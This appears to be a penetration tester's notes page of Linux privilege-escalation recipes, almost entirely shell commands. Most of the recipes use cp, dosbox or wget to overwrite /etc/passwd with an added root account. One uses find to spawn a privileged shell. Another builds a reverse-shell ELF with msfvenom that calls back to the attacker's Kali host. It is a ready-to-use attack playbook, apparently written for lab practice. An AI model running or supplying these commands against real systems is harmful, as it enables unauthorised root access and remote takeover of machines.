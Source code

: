 #### cp

Target:
```bash - target
cat /etc/passwd > passwd.orig
```

Kali:
```bash - kali
openssl passwd password
```

Target:
```bash - target
echo "newroot:D8rrIm3n0b6Sg:0:0:root:/root:/bin/bash" >> passwd.orig
```

```bash - target
cp passwd.orig /etc/passwd
```

```bash - target
su newroot
```

```bash - target
password
```

#### dosbox
First, you need to ssh into the target with -X flag:
```bash - kali
ssh -X <USER>@$TARGET 
```

```bash - target
dosbox
```

![[Pasted image 20220325160823.png]]

---

If the above method does not work, try:

[[0._Port Forwarding Examples#VNC to DosBox]]


---

On the target machine:
```bash - target
echo 'newroot:L9yLGxncbOROc:0:0:root:/root:/bin/bash' > fkpasswd
```

Now in the DOS box:
```
mount d /
```

```
D:
```

```
type D:\HOME\<USER>\FKPASSWD >> D:\ETC\PASSWD
```

Back in target:
```bash - target
su newroot
```

```bash - target
password
```

#### find
```bash - target
/usr/bin/find . -exec /bin/sh -p \; -quit
```

#### wget

```bash - kali
openssl passwd password
```

```bash - kali
echo "newroot:D8rrIm3n0b6Sg:0:0:root:/root:/bin/bash" >> passwd
```

```bash - target
wget http://$KALI/passwd -O /etc/passwd
```

```bash - target
su newroot
```

```bash - target
password
```

#### elf file

![[Pasted image 20220406205712.png]]

```bash - kali
strings uploadtosecure
```

   
```bash - kali
msfvenom -p linux/x86/shell_reverse_tcp LHOST=$KALI LPORT=80 -f elf > scp.elf
```

![[1._rlwrap]]

Transfer to victim

```bash - kali
mv scp.elf scp
```

```bash - kali
chmod 777 scp
```

```bash - kali
./uploadtosecure
```


